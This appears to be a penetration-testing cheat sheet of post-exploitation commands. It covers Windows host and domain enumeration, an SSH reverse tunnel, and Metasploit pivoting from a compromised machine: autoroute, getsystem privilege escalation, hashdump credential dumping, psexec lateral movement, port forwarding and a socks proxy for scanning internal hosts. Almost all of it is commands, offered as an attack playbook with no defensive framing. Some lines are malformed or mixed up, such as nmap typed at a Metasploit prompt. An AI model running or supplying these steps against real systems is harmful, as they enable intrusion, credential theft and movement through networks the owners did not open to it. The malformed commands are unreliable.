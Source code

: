 # Windows Information
```bash
On Windows:
ipconfig /all
systeminfo
net localgroup administrators
net view
net view /domain
```

# SSH Tunnelling
```bash
Remote forward port 222
ssh -R 127.0.0.1:4444:10.1.1.251:222 -p 443 root@192.168.10.118
```

## Metasploit

### Metasploit Pivot

Compromise 1st machine

```
meterpreter> run arp_scanner -r 10.10.10.0/24
meterpreter> route add 10.10.10.10 255.255.255.248 <session>
meterpreter> use auxiliary/scanner/portscan/tcp
msf auxiliary(tcp)> use bind shell
```

or run autoroute:

```bash
meterpreter> ipconfig
meterpreter> run autoroute -s 10.1.13.0/24
meterpreter> getsystem
meterpreter> run hashdump
meterpreter> use auxiliary/scanner/portscan/tcp
msf auxiliary(tcp)> use exploit/windows/smb/psexec 
```

or port forwarding:

```
meterpreter> run autoroute -s 10.1.13.0/24
meterpreter> use auxiliary/scanner/portscan/tcp
msf auxiliary(tcp)> portfwd add -l <listening port> -p <remote port> -r <remote/internal host>
```

or socks proxy:

```
meterpreter> route add 10.10.10.10 255.255.255.248 <session>
meterpreter> use auxiliary/server/socks4a
# Add proxy to /etc/proxychains.conf
msf auxiliary(tcp)> proxychains nmap -sT -T4 -Pn 10.10.10.50
msf auxiliary(tcp)> setg socks4:127.0.0.1:1080
```
